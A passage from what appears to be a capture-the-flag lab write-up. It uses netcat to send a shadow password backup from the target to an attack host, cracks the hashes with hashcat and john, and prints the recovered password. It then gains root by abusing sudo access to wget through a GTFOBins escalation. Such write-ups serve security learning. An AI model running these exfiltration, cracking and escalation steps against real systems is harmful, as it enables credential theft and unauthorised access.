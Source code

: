 We are blocked. Let’s try nc:

```bash
#on attack host:
nc -lnvp 1234 > shadow.backup

#on target
nc 10.10.16.7 1234 < shadow.backup

#now verify
md5sum shadow.backup
854b069771ffb8388d5dbeec5ae907db

#now do the same for agent22.backup
nc -lnvp 1234 > agent22.backup

nc 10.10.16.7 1234 < agent22.backup
```

Looking in the files, they look the same:

```bash
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Let’s crack it:

```bash
.\hashcat.exe wordlists\admin_hash.txt wordlists\rockyou.txt
```

Or, with john:

```bash
john shadow.backup --wordlist=/usr/share/wordlists/rockyou.txt
```

We got the password:

```bash
sammy:cooldude!
```

Let’s switch user:

```bash
su sammy
```

Let’s check our sudo privilegs:

```bash
sudo -l
(root) NOPASSWD: /usr/bin/wget
```

Searching wget on GTFObin, we get steps to root.

```bash
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo /usr/bin/wget --use-askpass=$TF 0
```
